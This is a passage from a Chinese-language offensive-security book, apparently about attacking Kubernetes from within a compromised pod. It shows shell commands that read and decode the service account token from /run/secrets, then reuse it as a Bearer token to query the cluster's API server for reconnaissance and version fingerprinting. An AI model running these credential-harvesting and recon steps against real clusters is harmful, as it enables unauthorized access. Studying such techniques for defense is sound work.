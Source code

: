 该帐户令牌实际上是一个签名的 JavaScript 对象表示法（JSON）字符串——也称为*JSON Web Token*（*JWT*）——包含识别服务帐户的信息。我们可以对 JWT 字符串的部分进行 base64 解码，以确认默认服务帐户的身份并获取一些信息：

```
shell> **cat /run/secrets/kubernetes.io/serviceaccount/token \**
**| cut -d "." -f 2 \**
**| base64 -d**

{
"iss": "kubernetes/serviceaccount",

"kubernetes.io/serviceaccount/namespace": "prod",

"kubernetes.io/serviceaccount/secret.name": "default-token-2mpcg",

"kubernetes.io/serviceaccount/service-account.name": "default",

"kubernetes.io/serviceaccount/service-account.uid": "956f6a5d-0854-11ea-9d5f-06c16d8c2dcc",

"sub": "system:serviceaccount:prod:default"
}
```

JWT 有几个常规字段，也称为*注册声明*：发行者（`iss`），在此情况下是 Kubernetes 服务帐户控制器；主题（`sub`），即帐户的名称；以及命名空间（稍后会详细说明），在此情况下是`prod`。显然，我们无法更改这些信息以冒充另一个帐户，否则会使附加到此 JSON 文件的签名无效。

*命名空间*是将 Kube 资源（如 Pods、服务帐户、秘密等）分组的逻辑分区，通常由管理员设置。它是一个软性隔离，允许更细粒度的 RBAC 权限；例如，具有“列出所有 Pods”权限的角色将仅限于列出属于其命名空间的 Pods。默认服务帐户也依赖于命名空间。我们刚刚检索到的帐户的标准名称是`system:serviceaccount:prod:default`。

该令牌为我们提供了第二次查询 API 服务器的机会。我们将文件内容加载到`TOKEN`变量中，并重试我们在清单 8-1 中的第一个 HTTP 请求，将`TOKEN`变量作为`Authorization`头发送：

```
shell> **export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)**

shell> **curl -Lk https://10.100.0.1/api --header "Authorization: Bearer $TOKEN"**

 "kind": "APIVersions",
  "versions": ["v1"],
  "serverAddressByClientCIDRs": [{
    "clientCIDR": "0.0.0.0/0",
    "serverAddress": "ip-10-0-34-162.eu-west-1.compute.internal:443"
  }]
```

哦！看起来默认的服务帐户确实比匿名帐户拥有更多权限。我们成功地在集群内部获取了一个有效的身份。

## 侦查 2.0

现在进行一些侦查。我们下载位于*https://10.100.0.1/openapi/v2*端点的 API 规范并探索我们的选项。

我们从获取集群的*/version*端点开始。如果集群足够老，可能有机会利用公共漏洞提升权限：

```
shell> **curl -Lk https://10.100.0.1/version --header "Authorization: Bearer $TOKEN"**
{
    "major": "1",
    "minor": "14+",
    "gitVersion": "v1.14.6-eks-5047ed",
    "buildDate": "2019-08-21T22:32:40Z",
    "goVersion": "go1.12.9",
`--snip--`
}
```
